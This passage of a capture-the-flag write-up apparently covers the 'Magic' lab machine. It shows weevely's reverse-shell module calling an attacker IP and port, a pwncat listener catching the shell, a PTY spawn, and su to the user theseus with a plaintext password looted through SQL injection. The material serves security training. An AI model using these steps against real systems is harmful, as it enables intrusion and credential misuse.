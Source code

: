 The issue is that the webshell is removed a few seconds after being uploaded.
So we'll have to use a PHP dropper to get a rverse shell immediately.

We could craft one with `msfvenom` (from [Metasploit][msf]) but weevely have a
bunch of useful modules like this one:

```
www-data@ubuntu:/var/www/Magic/images/uploads $ :backdoor_reversetcp -h
usage: backdoor_reversetcp [-h] [-shell SHELL] [-no-autonnect] [-vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}] lhost port

Execute a reverse TCP shell.

positional arguments:
  lhost                 Local host
  port                  Port to spawn

optional arguments:
  -h, --help            show this help message and exit
  -shell SHELL          Specify shell
  -no-autonnect         Skip autoconnect
  -vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}
```

Note: for OSCP it's also good to know how to do without [Metasploit][msf].

I start a [pwncat] listener on my machine:

```
$ pwncat -l 8888
```

Re-uploaded my webshell, executed it and launched the reverse shell module:

```
weevely> :backdoor_reversetcp 10.10.15.18 8888
```

Nice, I have a true shell that I won't lost on my [pwncat][pwncat] listener:

```
$ pwncat -l 8888
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation : www-data to theseus

We can just connect by re-using the credentials we looted during the SQLi.

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/var/www/Magic/images/uploads$ ls /home
theseus

www-data@ubuntu:/var/www/Magic/images/uploads$ su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic/images/uploads$ id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```
